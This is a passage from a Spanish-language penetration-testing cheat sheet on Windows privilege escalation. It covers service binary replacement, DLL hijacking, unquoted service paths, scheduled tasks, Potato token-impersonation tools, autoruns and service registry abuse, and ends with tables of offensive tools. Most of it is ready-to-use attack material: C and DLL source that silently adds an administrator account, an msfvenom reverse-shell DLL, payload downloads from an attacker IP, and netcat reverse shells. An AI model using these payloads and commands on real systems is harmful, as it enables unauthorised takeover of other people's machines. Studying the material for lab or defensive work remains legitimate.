- `-ClassName win32_service`: Especifica la clase WMI que se va a consultar. En este caso, win32_service es una clase que contiene información sobre los servicios de Windows.

###### Enumeración de la configuración del servicio

```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<SERVICE>'}
```

###### Mascara de Permisos `icacls`

| Mask | Permissions |
| --- | --- |
| F | Full access |
| M | Modify access |
| RX | Read and execute access |
| R | Read-only access |
| W | Write-only access |

###### Enumeración de Permisos

```powershell
icacls "C:\Ruta\al\binario\<binario>"
```

###### adduser.c

En nuestra máquina atacante, creamos un binario malicioso el cual crea un nuevo usuario y lo agrega al grupo de administradores.

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user elliot Password123! /add");
  i = system ("net localgroup administrators elliot /add");
  
  return 0;
}
```

###### Compilamos el código

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
###### Transferimos el binario a la máquina víctima.

```powershell
iwr -uri http://192.168.56.5/adduser.exe -Outfile adduser.exe
```

###### Movemos el binario a la ruta correspondiente

```powershell
move .\adduser.exe "C:\Ruta\al\binario\<binario>"
```

###### Ejecución

```powershell
net stop <SERVICE>
net start <SERVICE>
```

Alernativamente si no tenemos privilegios para reiniciar el servicio, podemos comprobar si el servicio se inicia al iniciar el sistema y si tenemos la capacidad para reiniciar la máquina.

```powershell
whoami /priv
```

Deberíamos ver el privilegio `SeShutdownPrivilege`

Por ultimo ejecutamos:

```powershell
shutdown /r /t 0
```

###### PowerUp

```powershell
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile
Install-ServiceBinary -Name '<SERVICE>'
```

###### Enumeración de propiedades de ejecución del servicio

```powershell
$ModifiableFiles = echo 'C:\PATH\TO\BINARY\<BINARY>.exe' | Get-ModifiablePath -Literal
$ModifiableFiles
$ModifiableFiles = echo 'C:\PATH\TO\BINARY\<BINARY>.exe argument' | Get-ModifiablePath -Literal
$ModifiableFiles
$ModifiableFiles = echo 'C:\PATH\TO\BINARY\<BINARY>.exe argument -conf=C:\temp\path' | Get-ModifiablePath -Literal
$ModifiableFiles
```
##### DLL Hijacking

###### Orden de búsqueda estándar

El orden de búsqueda lo define Microsoft y determina que inspeccionar primero al buscar una DLL. De forma predeterminada, todos las versiones actuales de Windows tienen habilitada el modo de busqueda segurda de DLL.

1. El directorio desde el que se cargó la aplicación.
2. El directorio del sistema.
3. El directorio del sistema de 16 bits.
4. El directorio de Windows.
5. El directorio actual.
6. Los directorios que aparecen enumerados en la variable de entorno PATH.

###### evildll.cpp
```c++
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Manejar el módulo DLL
DWORD ul_reason_for_call,// Motivo de la llamada a la función
LPVOID lpReserved ) // Reservado
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // Un proceso está cargando la DLL.
        int i;
        i = system ("net user <USERNAME> <PASSWORD> /add");
        i = system ("net localgroup administrators <USERNAME> /add");
        break;
        case DLL_THREAD_ATTACH: // Un proceso está creando un nuevo hilo.
        break;
        case DLL_THREAD_DETACH: // Un hilo termina normalmente.
        break;
        case DLL_PROCESS_DETACH: // Un proceso descarga la DLL.
        break;
    }
    return TRUE;
}
```

###### Compilar el archivo evildll.dll

```bash
x86_64-w64-mingw32-gcc evildll.cpp --shared -o evildll.dll
```

###### Alternativa - Usar msfvenom para crear una DLL y recibir una reverse shell

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=4444 -f dll -o evildll.dll
```

###### Transferimos la DLL a la máquina objetivo

```powershell
iwr -uri http://192.168.56.5/evildll.dll -OutFile 'C:\Ruta\Al\Binario\<FILE>.dll'
```

> Tener en cuenta, que si ejecutamos el binario con los privilegios de un usuario normal, el binario será ejecutado con esos privilegios y no es lo que queremos. Con esto en mente, no tenemos que iniciar la aplicación por nuestra cuenta. Deberemos esperar a que alguien con mayores privilegios la ejecute y active la carga de nuestra DLL maliciosa.

##### Rutas de servicio sin comillas (Unquoted Service Paths)

###### Orden de búsqueda

```powershell
C:\example.exe
C:\Program Files\example.exe
C:\Program Files\my example\example.exe
C:\Program Files\my example\my example\example.exe
```

###### Enumeración de rutas de servicio

```powershell
# Buscamos servicios que cumplan con esta condición
Get-CimInstance -ClassName win32_service | Select Name,State,PathName

# Comprobar si podemos iniciar/detener el servicio
Start-Service <SERVICE>
Stop-Service <SERVICE>

# Buscar en la ruta donde se encuentra el servicio, directorios en los cuales podemos escribir para poder agregar nuestro binario malicioso 
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\my example"

# Iniciamos el servicio
Start-Service <SERVICE>

# Otra forma de buscar binarios que cumplan con esta condición es
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

###### Alternativa - PowerUp

```powershell
powershell -ep bypass
. .\PowerUp.ps1
Get-UnquotedService
Write-ServiceBinary -Name '<SERVICE>' -Path "C:\Program Files\my binary\binary.exe"
Start-Service <SERVICE>
```

##### Tareas Programadas (Scheduled Tasks)

> Las **Scheduled Tasks** (Tareas Programadas) en Windows son una función del sistema operativo que permite automatizar la ejecución de programas, scripts o comandos en momentos específicos o bajo ciertas condiciones. Estas tareas se pueden configurar para que se ejecuten diariamente, semanalmente, mensualmente, al iniciar el sistema, al iniciar sesión, o incluso cuando ocurren eventos específicos. Son útiles para realizar mantenimiento automático, backups, actualizaciones, o cualquier tarea repetitiva sin necesidad de intervención manual.

```powershell
# Listar las tareas programadas
schtasks /query /fo LIST /v
Get-ScheduleTask
Get-ScheduledTask | Where-Object { $_.Author -and $_.Author -notmatch 'Microsoft|SYSTEM|S-1-5-18|S-1-5-19|S-1-5-20' } | Select-Object TaskName, Author, @{Name='TaskToRun'; Expression={$_.Actions.Execute}}, NextRunTime
```

Cuando listamos las tareas programadas deberíamos buscar información interesante, como el autor, el nombre de la tarea, la tarea a ejecutar, el usuario que ejecuta la tarea y la próxima ejecución de la tarea.

Buscamos la ruta de la tarea a ejecutar y comprobamos si tenemos permisos de escritura en esa ruta, para poder remplazar el binario.

```powershell
icacls C:\Ruta\Al\Binario\<BINARY>.exe
```

Reutilizamos el binario `adduser.exe` el cual crea y agrega un nuevo usuario al grupo administrador (esto depende del usuario que este ejecutando la tarea) o también podemos lanzarnos una reverse shell.

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user elliot Password123! /add");
  i = system ("net localgroup administrators elliot /add");
  
  return 0;
}
```

Creamos un servidor HTTP con Python y transferimos el binario a la máquina víctima.

```powershell
iwr -Uri http://192.168.56.5/adduser.exe -Outfile <BINARY>.exe
```

Movemos el binario a la ruta del binario original para remplazarlo.

```powershell
move .\<BINARY>.exe C:\Ruta\Al\Binario\
```

##### SeImpersonate y SeAssignPrimaryToken

En Windows, cada proceso tiene asociado un **token** que contiene información sobre la cuenta que lo está ejecutando, como los permisos y privilegios asociados. Sin embargo, estos tokens **no se consideran recursos completamente seguros**, ya que residen en la memoria del sistema y, en teoría, podrían ser vulnerables a ataques de fuerza bruta o manipulación por parte de usuarios malintencionados con acceso limitado. Para utilizar un token y realizar acciones en nombre de otro usuario (por ejemplo, mediante la función `CreateProcessWithTokenW`), se requiere el privilegio **SeImpersonate**. Este privilegio está generalmente reservado para cuentas administrativas y servicios de alto nivel, como los que se ejecutan bajo las cuentas `SYSTEM` o `Local Service`.

Durante el proceso de **endurecimiento del sistema** (hardening), este privilegio puede ser eliminado o restringido como medida de seguridad.

> En Windows, cada proceso tiene un token que contiene información sobre la cuenta que lo está ejecutando. 

Los programas legítimos en Windows pueden utilizar el token de otro proceso para escalar privilegios, pasando de una cuenta de Administrador a Local System, que tiene permisos más amplios y acceso completo al sistema. Esto se logra típicamente mediante una llamada al proceso WinLogon, que es responsable de gestionar los inicios de sesión y los tokens de seguridad. Al interactuar con WinLogon, un proceso puede obtener un token del sistema y luego ejecutarse con ese token, efectivamente operando dentro del contexto de Local System.

Sin embargo, este mecanismo también puede ser explotado por atacantes en técnicas de escalada de privilegios, como los ataques del estilo "Potato". Estos ataques aprovechan el privilegio SeImpersonate, que permite a un proceso suplantar el token de otro usuario. Aunque una cuenta de servicio puede tener el privilegio SeImpersonate, no tiene acceso completo a los privilegios de nivel SYSTEM. El ataque Potato engaña a un proceso que se ejecuta como SYSTEM para que se conecte a un proceso controlado por el atacante. Una vez establecida la conexión, el atacante puede robar el token del proceso SYSTEM y utilizarlo para ejecutar código con privilegios elevados.

Varias herramientas y técnicas aprovechan SeImpersonatePrivilege y SeAssignPrimaryTokenPrivilege para escalar privilegios a SYSTEM o Administrador. A continuación, se presentan algunas de ellas:

###### JuicyPotato.exe

> *Windows 10 compilación 1809 - Windows Server 2016*

> https://github.com/ohpe/juicy-potato

JuicyPotato es una herramienta de explotación diseñada para abusar de los privilegios SeImpersonate o SeAssignPrimaryToken en sistemas Windows. Estos privilegios, comúnmente asignados a cuentas de servicio, permiten a un proceso suplantar tokens de seguridad de otros usuarios. JuicyPotato aprovecha esta capacidad mediante ataques de reflexión DCOM/NTLM, engañando a un proceso que se ejecuta con privilegios de SYSTEM para que se conecte a un servicio controlado por el atacante. Una vez establecida la conexión, el atacante puede robar el token de SYSTEM y utilizarlo para ejecutar código con privilegios elevados.

Sin embargo, esta herramienta tiene limitaciones: funciona en versiones de Windows hasta Windows Server 2016 y Windows 10, compilación 1809.

**Pasos para explotar el uso de JuicyPotato**:

1. **Configurar el listener con Netcat en la máquina atacante**:

```bash
rlwrap nc -lnvp 4444
```

2. **Ejecutar JuicyPotato en la máquina objetivo**:

```bash
c:\temp\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\temp\nc.exe 192.168.56.5 4444 -e cmd.exe" -t *
```

Explicación:

- `-l`: Especifica el puerto de escucha del servidor COM (53375 en este caso).
- `-p`: Programa a lanzar (en este caso, cmd.exe).
- `-a`: Argumento pasado a cmd.exe. Aquí, le indica a Netcat que se conecte a la máquina atacante y proporcione una reverse shell.
- `-t`: Especifica el `createprocess` a llamar, utilizando las funciones `CreateProcessWithTokenW` o `CreateProcessAsUser`, que requieren privilegios **SeImpersonate** o **SeAssignPrimaryToken**.

###### PrintSpoofer

> *Windows 10 (todas las versiones, incluidas las compilaciones posteriores a 1809) y Windows Server 2012/2016/2019*

> https://github.com/itm4n/PrintSpoofer

**PrintSpoofer** abusa del servicio **Spooler** de impresión de Windows y su interacción con named pipes (tuberías con nombre) para escalar privilegios. Explota una combinación de características y comportamientos del sistema operativo que permiten a un atacante suplantar el token de seguridad de un proceso que se ejecuta como SYSTEM.

**Pasos para explotar el código usando PrintSpoofer**:

1. Ejecutar PrintSpoofer:

```powershell
c:\temp\PrintSpoofer.exe -c "c:\temp\nc.exe 192.168.56.5 4444 -e cmd"
```

Explicación:

- `-c`: Especifica el comando que se ejecutará una vez que la escalada de privilegios sea exitosa. En este caso, se ejecuta Netcat (nc.exe) para proporcionar una reverse shell a la máquina atacante. 

###### RogueWinRM

> *Windows 10 (todas las versiones, incluidas las compilaciones posteriores a 1809) y Windows Server 2012/2016/2019*

> https://github.com/antonioCoco/RogueWinRM

**RogueWinRM** es una técnica de explotación que permite la escalada de privilegios en sistemas Windows aprovechando el servicio WinRM (Windows Remote Management). A diferencia de JuicyPotato, que se basa en la reflexión DCOM/NTLM, RogueWinRM abusa del servicio WinRM para ejecutar código con privilegios de SYSTEM. Esta técnica es particularmente útil en entornos donde JuicyPotato no funciona, como en Windows Server 2019 y versiones más recientes de Windows 10.

```powershell
.\RogueWinRM.exe -p "C:\temp\payload.exe"
```

###### SigmaPotato.exe

> *Windows 10 (todas las versiones, incluidas las compilaciones posteriores a 1809) y Windows Server 2012/2016/2019*

> https://github.com/tylerdotrar/SigmaPotato

```powershell
# Ejecutar un comando
./SigmaPotato.exe <command>


# Establecer una reverse shell con PowerShell
./SigmaPotato.exe --revshell <ip_addr> <port>
```
##### Autorun
Los Autorun en Windows son una característica que permite a los programas o scripts ejecutarse automáticamente cuando el sistema operativo se inicia o cuando se conecta un dispositivo externo, como una unidad USB o un disco óptico. Esta funcionalidad es útil para tareas automatizadas, pero también puede ser explotada por malware si no se configura correctamente.

**Carpetas a chequear**

```powershell
C:\Users\[Usuario]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
C:\Program Files\Autorun Program\
```
**Registros de Windows**

```powershell
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

Get-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run"
```
Si hay algun programa de ejecución automática, es posible que pueda sobreescribirse el binario.

Podemos utilizar `accessckk.exe` de SysInternals o `icacls` para comprobar los permisos del directorio.

```powershell
icacls C:\Users\[Usuario]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

Si alguno de los archivos se puede escribir, se puede sobrescribir con una reverse shell o algun otro payload que nos permita escalar privilegios.

##### Sericios Get-Acl hklm:\System\CurrentControlSet\services\regsvc

Si una cuenta de usuario puede registrar servicios, entonces podemos crear un servicios malicioso para realizar una tarea privilegiada.

El código que utilizaremo es el siguiente:

```c
#include <windows.h>  
#include <stdio.h>  
  
#define SLEEP_TIME 5000  
  
SERVICE_STATUS ServiceStatus;    
SERVICE_STATUS_HANDLE hStatus;    
   
void ServiceMain(int argc, char** argv);    
void ControlHandler(DWORD request);    
  
//add the payload here  
int Run()    
{    
   system("cmd.exe /k net localgroup administrators user /add");
   return 0;    
}    
  
int main()    
{    
   SERVICE_TABLE_ENTRY ServiceTable[2];  
   ServiceTable[0].lpServiceName = "MyService";  
   ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;  
  
   ServiceTable[1].lpServiceName = NULL;  
   ServiceTable[1].lpServiceProc = NULL;  
   
   StartServiceCtrlDispatcher(ServiceTable);     
   return 0;  
}  
  
void ServiceMain(int argc, char** argv)    
{    
   ServiceStatus.dwServiceType        = SERVICE_WIN32;    
   ServiceStatus.dwCurrentState       = SERVICE_START_PENDING;    
   ServiceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN  
;  
   ServiceStatus.dwWin32ExitCode      = 0;    
   ServiceStatus.dwServiceSpecificExitCode = 0;    
   ServiceStatus.dwCheckPoint         = 0;    
   ServiceStatus.dwWaitHint           = 0;    
   
   hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandl  
er);    
   Run();    
      
   ServiceStatus.dwCurrentState = SERVICE_RUNNING;    
   SetServiceStatus (hStatus, &ServiceStatus);  
   
   while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)  
   {  
               Sleep(SLEEP_TIME);  
   }  
   return;    
}  
  
void ControlHandler(DWORD request)    
{    
   switch(request)    
   {    
       case SERVICE_CONTROL_STOP:    
                       ServiceStatus.dwWin32ExitCode = 0;    
           ServiceStatus.dwCurrentState  = SERVICE_STOPPED;    
           SetServiceStatus (hStatus, &ServiceStatus);  
           return;    
   
       case SERVICE_CONTROL_SHUTDOWN:    
           ServiceStatus.dwWin32ExitCode = 0;    
           ServiceStatus.dwCurrentState  = SERVICE_STOPPED;    
           SetServiceStatus (hStatus, &ServiceStatus);  
           return;    
          
       default:  
           break;  
   }    
   SetServiceStatus (hStatus,  &ServiceStatus);  
   return;    
}
```

En nuestra máquina atacante, compilamos el código con el siguiente comando:

```c
x86_64-w64-mingw32-gcc windows_service.c -o privesc.exe
```

Transferimos el binario a la máquina víctima y registramos el servicio.

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d [C:\Temp\privesc.exe] /f
```

Iniciamos el servicio

```powershell
sc.exe start regsvc
```

Confirmamos que el usuario se haya agregado al grupo administrators.

```powershell
net localgroup administrators
```

##### Servicios - `binPath`

Similar al ataque de permisos en los servicios, podemos comprobar los permisos de un servicio para ver si podemos modificarlo.

```powershell
accesschk.exe /accepteula -uwcqv <SERVICE>
```

```powershell
accesschk64.exe /accepteula -wuvc <SERVICE>
```

Si tenemos el permiso `SERVICE_CHANGE_CONFIG` podemos manipular un servicio.

```powershell
sc.exe config <SERVICE> binpath= "net localgroup administrators user /add"
```

```
sc start <SERVICE>
```

##### Aplicaciones ejecutadas al inicio

```powershell
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

- Si `BUILTIN\Users` tiene el privilegio `(F)`, podemos agregar un payload en esa ruta.
- Usamos msfvenom para generar una revese shell
- Colocamos la reverse shell en la carpeta
- Iniciamos un lisetenr con Netcat
- Espere a que un administrador inicie sesión

##### GUI Apps

Si una aplicación GUI está configurada para ejecutarse como administrador al iniciarse podemos abusar de esta para obtener una consola:

Por ejemplo: MS-Paint

- Archivo > Abrir -> Ingresar `file://C:/Windows/System32/cmd.exe`

###  9.2. <a name='linux-2'></a>Linux

##  10. <a name='active-directory'></a>Active Directory

###  10.1. <a name='enumeración-2'></a>Enumeración

###  10.2. <a name='kerberos'></a>Kerberos

###  10.3. <a name='explotación'></a>Explotación

###  10.4. <a name='movimiento-lateral-1'></a>Movimiento Lateral

###  10.5. <a name='post-explotación'></a>Post Explotación

##  11. <a name='herramientas-y-recursos'></a>Herramientas y Recursos

Enlaces a las distintas herramientas y recursos.
###  11.1. <a name='pivoting-1'></a>Pivoting

| Nombre    | URL                                                                      |
| --------- | ------------------------------------------------------------------------ |
| Chisel    | [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel) |
| Ligolo-ng | https://github.com/nicocha30/ligolo-ng |
                            
###  11.2. <a name='information-gathering-1'></a>Information Gathering

| Nombre | URL                          |
| ------ | ---------------------------- |
| Nmap   | https://github.com/nmap/nmap |

###  11.3. <a name='web-1'></a>Web

| Nombre                     | URL                                                     |
| -------------------------- | ------------------------------------------------------- |
| ffuf                       | https://github.com/ffuf/ffuf                            |
| Gobuster                   | https://github.com/OJ/gobuster                          |
| PayloadAllTheThings        | https://github.com/swisskyrepo/PayloadsAllTheThings     |
| Wfuzz                      | https://github.com/xmendez/wfuzz                        |
| WhatWeb                    | https://github.com/urbanadventurer/WhatWeb              |
| WPScan                     | https://github.com/wpscanteam/wpscan                    |
| PHP Filter Chain Generator | https://github.com/synacktiv/php_filter_chain_generator |
| Leaky Paths                | https://github.com/ayoubfathi/leaky-paths               |
| Joomscan                   | https://github.com/OWASP/joomscan                       |
| Droopescan                 | https://github.com/SamJoan/droopescan                   |
| Magescan                   | https://github.com/steverobbins/magescan                |

###  11.4. <a name='bases-de-datos'></a>Bases de datos

| Nombre                   | URL                            |
| ------------------------ | ------------------------------ |
| SQL Injection Cheatsheet | https://tib3rius.com/sqli.html |

###  11.5. <a name='passwords-attacks-1'></a>Passwords Attacks

| Nombre                          | URL                                                                                                        |
| ------------------------------- | ---------------------------------------------------------------------------------------------------------- |
| Default Credentials Cheat Sheet | [https://github.com/ihebski/DefaultCreds-cheat-sheet](https://github.com/ihebski/DefaultCreds-cheat-sheet) |
| Firefox Decrypt                 | [https://github.com/unode/firefox_decrypt](https://github.com/unode/firefox_decrypt)                       |
| hashcat                         | [https://hashcat.net/hashcat](https://hashcat.net/hashcat)                                                 |
| Hydra                           | [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)                   |
| John                            | [https://github.com/openwall/john](https://github.com/openwall/john)                                       |
| keepass-dump-masterkey          | [https://github.com/CMEPW/keepass-dump-masterkey](https://github.com/CMEPW/keepass-dump-masterkey)         |
| KeePwn                          | [https://github.com/Orange-Cyberdefense/KeePwn](https://github.com/Orange-Cyberdefense/KeePwn)             |
| Kerbrute                        | [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)                                   |
| LaZagne                         | [https://github.com/AlessandroZ/LaZagne](https://github.com/AlessandroZ/LaZagne)                           |
| mimikatz                        | [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)                           |
| NetExec                         | [https://github.com/Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec)                             |
| ntlm.pw                         | [https://ntlm.pw](https://ntlm.pw)                                                                         |
| pypykatz                        | [https://github.com/skelsec/pypykatz](https://github.com/skelsec/pypykatz)                                 |

###  11.6. <a name='wordlists'></a>Wordlists

| Nombre                        | URL                                                                                                                |
| ----------------------------- | ------------------------------------------------------------------------------------------------------------------ |
| SecLists                      | [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)                           |
| Kerberos Username Enumeration | [https://github.com/attackdebris/kerberos_enum_userlists](https://github.com/attackdebris/kerberos_enum_userlists) |
| bopscrk                       | [https://github.com/R3nt0n/bopscrk](https://github.com/R3nt0n/bopscrk)                                             |
| CUPP                          | [https://github.com/Mebus/cupp](https://github.com/Mebus/cupp)                                                     |
| COOK                          | [https://github.com/giteshnxtlvl/cook](https://github.com/giteshnxtlvl/cook)                                       |
| Username Anarchy              | [https://github.com/urbanadventurer/username-anarchy](https://github.com/urbanadventurer/username-anarchy)         |
| CeWL                          | [https://github.com/digininja/cewl](https://github.com/digininja/cewl)                                             |
| API Wordlist                  | https://github.com/chrislockard/api_wordlist/blob/master/api_seen_in_wild.txt                                      |

###  11.7. <a name='escalación-de-privilegios-2'></a>Escalación de Privilegios


| Nombre   | URL                                                      |
| -------- | -------------------------------------------------------- |
| Winpeas  | https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS |
| Seatbelt | https://github.com/GhostPack/Seatbelt                    |
| Linpeas  | https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS |
| SigmaPotato | https://github.com/tylerdotrar/SigmaPotato |

###  11.8. <a name='recursos-y-blogs'></a>Recursos y Blogs

| Nombre                                                  | URL                                                                                                                                                                          |
| ------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 0xdf                                                    | [https://0xdf.gitlab.io/](https://0xdf.gitlab.io/)                                                                                                                           |
| IppSec.rocks                                            | [https://ippsec.rocks/?#](https://ippsec.rocks/?#)                                                                                                                           |
| IppSec (YouTube)                                        | [https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA)                                                         |
| HackTricks                                              | [https://book.hacktricks.xyz/](https://book.hacktricks.xyz/)                                                                                                                 |
| HackTricks Local Windows Privilege Escalation Checklist | [https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation) |
| Rednode Windows Privilege Escalation                    | [https://rednode.com/privilege-escalation/windows-privilege-escalation-cheat-sheet/](https://rednode.com/privilege-escalation/windows-privilege-escalation-cheat-sheet/)     |
